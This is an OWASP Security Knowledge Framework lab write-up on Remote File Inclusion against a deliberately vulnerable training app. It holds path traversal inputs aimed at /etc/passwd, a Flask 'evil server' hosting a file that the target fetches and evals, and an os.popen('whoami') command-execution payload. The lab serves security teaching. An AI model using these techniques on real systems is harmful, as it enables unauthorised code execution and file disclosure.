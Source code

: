 # KBID 173 - Remote File Inclusion


## Running the app



```text
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript 

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](.gitbook/assets/RFI1.png)

![](.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](.gitbook/assets/RFI3.png)


To exploit an Remote File Inclusion vulnerability we need first to setup our on webserver so we are able to serve our own file. In this case i will use Python Flask to create a small webserver that serves my file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
	
```
Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file. 

```python
os.popen('whoami').read()
```

![](.gitbook/assets/RFI5.png)

{% hint style="success" %} 
 Success! As we observed, we can include our own files through RFI. 
{% endhint %}

## Additional sources

https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion 
